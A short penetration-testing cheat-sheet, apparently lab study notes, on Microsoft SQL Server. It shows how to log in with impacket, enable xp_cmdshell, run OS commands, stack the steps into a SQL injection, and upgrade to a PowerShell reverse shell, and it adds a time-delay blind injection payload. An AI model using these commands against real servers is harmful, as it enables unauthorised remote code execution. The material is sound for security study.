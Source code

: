 
#### xp_cmdshell

In Microsoft SQL Server, the `xp_cmdshell` function takes a string and passes it to a command shell for execution. The function returns any output as rows of text. The function is disabled by default and, once enabled, it must be called with the EXECUTE keyword instead of SELECT.

e.g. utilizing xp_cmdshell to execute whoami command.

1. `impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth`
2. `EXECUTE  sp_configure 'show advanced options', 1;`
3. `RECONFIGURE;`
4. `EXECUTE sp_configure 'xp_cmdshell', 1;`
5. `RECONFIGURE;`
6. `EXECUTE xp_cmdshell 'whoami';`

```
if you find a vulnerability that allows stacked queries you can put all of the above into a single command line followed by -- //

you can then replace whoami with a powershell reverse shell base64 encoded from revshells
```

This can be used to upgrade out SQL shell to a more standard reverse shell.

#### blind payload

`test'; waitfor delay '0:0:5'-- //` - time delay test for mssql

